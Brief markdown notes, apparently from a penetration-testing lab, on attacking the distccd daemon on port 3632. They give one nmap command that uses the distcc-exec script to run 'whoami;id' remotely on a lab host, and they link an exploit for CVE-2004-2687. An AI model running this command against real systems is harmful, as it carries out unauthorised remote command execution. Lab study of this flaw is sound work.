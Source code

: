 # distccd (DistCC Daemon)

## Recon

```
nmap -p 3632 10.10.10.3 --script distcc-exec --script-args="distcc-exec.cmd='whoami;id'" -Pn
```

## distccd v1 (DistCC Daemon v1)

```
https://nmap.org/nsedoc/scripts/distcc-cve2004-2687.html
https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855
```
